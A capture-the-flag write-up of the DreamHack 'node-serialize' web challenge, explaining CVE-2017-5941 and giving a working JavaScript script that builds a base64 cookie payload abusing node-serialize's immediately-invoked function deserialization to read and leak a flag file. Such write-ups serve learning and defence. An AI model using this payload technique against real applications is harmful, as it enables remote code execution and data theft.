

# node-serialize — DreamHack

> **Room / Challenge:** node-serialize (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** DreamHack
- **Challenge:** node-serialize (web)
- **Link**: `https://dreamhack.io/wargame/challenges/685`
- **Level:** `2`
- **Date:** `19-11-2025`

---

## Goal

Leveraging the vulnerability in `node-serialize` module to get the flag.

## My Solution

The `node-serialize` module is known for its RCE (Remote Code Execution) vulnerability. For more information: [CVE-2017-5941](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)

We can create our exploit base64 encoded payload with this Javascript:

```javascript
const serialize = require("node-serialize");

const payload = {
  rce: function () {
    const fs = require("fs");
    const flag = fs.readFileSync("./flag", "utf8");
    throw new Error(flag);
  },
};

let str = serialize.serialize(payload);

str = str.replace('}"', '}()"');
console.log("\n--- Base64 Encoded Cookie Value ---");
console.log(Buffer.from(str).toString("base64"));
```

Set the cookie `profile` in Devtools with the Base64 encoded and refresh the page to get the flag:

